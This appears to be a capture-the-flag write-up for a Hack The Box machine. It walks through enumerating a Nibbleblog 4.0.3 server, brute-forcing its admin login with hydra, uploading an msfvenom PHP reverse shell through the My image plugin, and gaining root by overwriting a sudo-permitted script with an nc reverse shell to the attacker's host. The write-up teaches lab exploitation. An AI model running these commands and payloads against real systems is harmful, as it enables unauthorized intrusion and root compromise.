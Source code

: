 # Lame
![info-card](./info_card.png)

## Initial Enumeration

As usual, we start with a quick and easy nmap scan. I generally do this before diving into full port scans and NSE scripts so I can start to explore things as those more verbose scans run, but in this case those weren't needed.

```bash
nmap -sV 10.10.10.75
```

From that we can see we have a rather narrow attack surface:

![Nmap Results](./nmap.png)

If we're given ssh and an HTTP server as possible attack vectors, we can almost always assume the HTTP server is the target. Vulnerabilities in SSH aren't too common and generally won't be found on challenges ranked easy. That being said, let's dive into this HTTP server. Navigating to `http://10.10.10.75/` brings us to a page simply saying `Hello World!`, but after looking at the page source we see the following:

```html
<b>Hello world!</b>














<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

Naturally we go to `http://10.10.10.75/nibbleblog` and find a web page ran on a product named `Nibbleblog`. Let's dig a little deeper into this site with a gobuster scan:

```bash
gobuster dir -u http://10.10.10.75/nibbleblog -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -x php,md,html -t 50
```

![Gobuster Results](./gobuster.png)

From this we see two things of interest. `nibbleblog/README` is a great place to find versioning information and `nibbleblog/admin.php` will generally give us a chance to attack an admin login page. Starting with `nibbleblog/README` we see the following at the top of the file:

```
====== Nibbleblog ======
Version: v4.0.3
Codename: Coffee
Release date: 2014-04-01

Site: http://www.nibbleblog.com
Blog: http://blog.nibbleblog.com
Help & Support: http://forum.nibbleblog.com
Documentation: http://docs.nibbleblog.com
```

Next let's take a look at `nibbleblog/admin.php`. As expected, we find a login page. After a quick google didn't bring up a set of default credentials I'll use hydra to brute force the login with the username `admin`. To see what's really going on with this form, we start up our Burp Suite proxy and submit a test login attempt to see how the data is being sent. Shown below is the captured login attempt:

```http
POST /nibbleblog/admin.php HTTP/1.1
Host: 10.10.10.75
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.75/nibbleblog/admin.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 27
Connection: close
Cookie: PHPSESSID=0cnrenp6euhttr8p0sbsut6pn5
Upgrade-Insecure-Requests: 1

username=USER&password=PASS
```

Using this information we can set up hydra to start a dictionary attack against this login. The syntax for this attack is as follows:

```bash
hydra -P /usr/share/wordlists/nmap.lst -l admin 10.10.10.75 http-post-form "/nibbleblog/admin.php:username=^USER^&password=^PASS^:Incorrect"
```

Unfortunately this leads to us being blacklisted by the application: 

![We've Been Blacklisted](./blacklisted.png)

After waiting a few minutes we're taken off the blacklist and can access the login page once again. This time we take a more simple approach and guess the password. The general rule of thumb here is to think like a lazy sysadmin. After a few attempts I ended up finding the credentials `admin:nibbles`. Just to satisfy my own curiosity, I verified that the password `nibbles` would in fact have been found by my hydra scan if we weren't blacklisted :).

![Checking the Wordlist](./nibbles.png)

## Execution

With access to the admin console as well as the version information, we are well on our way to our initial shell. Using searchsploit we can check for public exploits:

![Searchsploit Results](./searchsploit.png)

This [exploit](https://www.exploit-db.com/exploits/38489) tells us that an attacker can use the plugin `My image` to upload a php file and then execute it at `http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php`. Instead of using metasploit for this, I prefer to exploit it on my own. First we'll need a reverse shell to upload. To do this we'll use `msfvenom` to generate the payload:

```bash
echo '<?php' > evil.php && msfvenom -p php/reverse_php LHOST=$(tunip) LPORT=31337 -f raw >> evil.php && echo '?>' >> evil.php
```

{% hint %}
`tunip` is a handy bash alias I use to get my current IP address for Hack The Box. it is set to `ifconfig tun0 | sed -n '2 p' | awk '{print \$2}'` in my `~/.bash_aliases`
{% endhint %}
With this we can now select our file for upload in the plugin's configuration menu:

![My image Upload](./upload.png)

After clicking `Save Changes` you'll get some error messages, but this isn't a problem. Navigating to `http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php` triggers our reverse shell on port `31337`. With this we are able to get the user flag:

![Obtaining the User Flag](./user.png)

## Privilege Escalation

Going to the user `nibbler`'s home directory gives us a `personal.zip` file. Using `unzip` we can decompress this file and discover a file `personal/stuff/monitor.sh` which looks to be a custom monitoring script. Following my usual steps, I then run `sudo -l` to see if we have passwordless sudo access to anything:

![Passwordless Sudo Permissions](./sudo.png)

Well that certainly makes this process easier. This tells us that we can execute the file `/home/nibbler/personal/stuff/monitor.sh` with sudo permissions _without_ supplying a password. To exploit this I'm simply going to overwrite that file with a bash reverse shell back to my Kali host on a different port. To do this I'll run the following:

```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.12 4443 >/tmp/f' > /home/nibbler/personal/stuff/monitor.sh
chmod +x /home/nibbler/personal/stuff/monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
```

Running these commands in our user shell replaces the contents of `monitor.sh` with a reverse shell, then executes that reverse shell with root privileges. With this we are able to read the root flag:

![Root Flag](./root.png)
